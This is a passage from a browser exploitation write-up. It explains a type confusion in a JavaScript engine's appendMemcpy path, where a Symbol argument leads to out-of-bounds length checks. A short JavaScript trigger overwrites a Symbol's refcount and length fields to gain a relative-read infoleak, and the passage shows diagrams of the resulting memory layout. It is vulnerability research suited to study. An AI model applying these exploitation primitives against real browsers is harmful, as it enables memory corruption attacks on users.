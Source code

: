 If we recall our earlier pseudocode:

```python
def appendMemcpy(dst, src):
    if allocated_size(dst) < sizeof(dst) + sizeof(src):
        resize(dst)

    memcpy(dst + sizeof(dst), src, sizeof(src));
```

In the normal butterfly case, it will check the `length` and `public length` fields, located at `-4` and `-8` from the butterfly pointer (i.e `btrfly[-1]` and `btrfly[-2]` respectively). However, when passing `Symbol`s in our typed confused cases those array accesses will be out of bounds, and thus potentially controllable. Let’s walk through the two possibilities.

### OOB memory is a large value

Let’s presume we have a memory layout similar to:

```text
  OOB    OOB
+------------------------------------------+
|0xffff|0xffff|refcount|length|str base ptr|
+------------------------------------------+
              ^
        +---+ |
        |ptr+-+
        +---+
```

The exact OOB values won’t matter, as long as they’re greater than the size of the `dst` plus the `src`. In this case, `resize` in our pseudocode or `ensureLength` (`[4]`) in the actual code will not trigger a reallocation and object move, resulting in a direct `memcpy` on top of `refcount` and `length`. From here, we can turn this into a relative read infoleak by overwriting the length field.

For example, if we store a function reference to `arrayProtoPrivateFuncAppendMemcpy` in a variable named `busted_concat` and then trigger the bug, like this:

```js
let x = Symbol("AAAA");

let y = [];
y.push(new Int64('0x000042420000ffff').asDouble());

busted_concat(x, y, 0);
```

Note: `Int64` can be found [here](https://github.com/saelo/jscpwn/blob/master/int64.js) and is, of course, covered in [saelo’s Phrack article](http://phrack.org/papers/attacking_javascript_engines.html).

We would then end up with a `Symbol` `x` with fields:

```
 refcount length
+----------------------------+
| 0x4242 |0xffff|str base ptr|
+----------------------------+
```
